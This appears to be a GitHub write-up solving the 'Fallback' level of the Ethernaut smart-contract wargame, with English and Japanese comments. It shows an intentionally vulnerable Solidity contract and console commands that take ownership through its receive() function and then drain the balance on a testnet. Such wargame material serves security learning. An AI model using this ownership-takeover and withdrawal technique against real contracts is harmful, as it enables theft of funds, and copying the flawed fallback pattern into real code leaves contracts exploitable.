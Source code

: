 ## Ethernaut-solution
---
### 1.Fallback

1. you claim ownership of the contract <br>
2. you reduce its balance to 0

### learning
- How to send Ether when intracting with an ABI<br>
- How to send Ether outside of the ABI <br>
- Converting to and from wei/Ether units <br>
- Fallback methods <br>

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/utils/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;//internal database how much Ether each address has and how many token each address has, how much money each address has 
  address payable public owner;

//constructor deployed it set as owner 
  constructor() public {//executed lifecycle of smartcontract first get deploy
    owner = msg.sender; //send as owner 
    contributions[msg.sender] = 1000 * (1 ether); //mapping contribution set amount of Ether
  }

//modifier can applied any function in a smart contract 
  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

//contributionsの構成にsecurityhallがある
//何回もfunction contribute()を起動して、senderがownerよりcontributionsがmany many timesの状況になればownerになれてしまう

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }


  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

// this function is fallback function /you wanna send money to A contract 
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);//the best way attack become the owner
    //contributions条件を満たすことが攻撃の最初の準備。satisfy second condition first.
    owner = msg.sender;
  }
}
```

1. you claim ownership of the contract 

*contract*...reference of our smart contract 

n {methods: {…}, abi: Array(7), address: '0xc3309271b114BFdC7DaDCAd2C3ED67116A798624', transactionHash: undefined, constructor: ƒ, …}

contract.address...smartcontract address 

'0xc3309271b114BFdC7DaDCAd2C3ED67116A798624'

player...my address 
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

await contract.contributions(player) 
o {negative: 0, words: Array(2), length: 1, red: null}

//Array 0: 0 。現状no valueなのがわかる

await contract.getContribution()

//0のまんま

//そこでcall contribute function! It's payable.value: 1 => 1 ETH 

//1ETH send <br>
contract.contribute({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}

//1ETH sendでaccount valueが増えているか確認 key:value <br>
await contract.contributions(player)
o {negative: 0, words: Array(2), length: 1, red: null}
//Array 0: 1 。

//ownerの確認 <br>
await contract.owner()

//this smartcontract own address<br>
'0x9CB391dbcD447E645D6Cb55dE6ca23164130D008'

//playerの確認 = まだownerになってない<br>
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

//sendTransaction is special function from web3.js <br>
contract.sendTransaction({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}

//transaction<br>
⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177


//Transactionの成功によりcontractのownerが自分にchangeされているのを確認<br>
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'



2.you reduce its balance to 0<br>
//balanceの確認<br>
await getBalance(contract.address)<br>
'0.000000000000000002'

//function withdrawをreturn<br>
//transfer all balance our wallet!<br>
contract.withdraw()

Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}

⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68

//balanceが"0"になっているのを確認

await getBalance(contract.address)

'0'

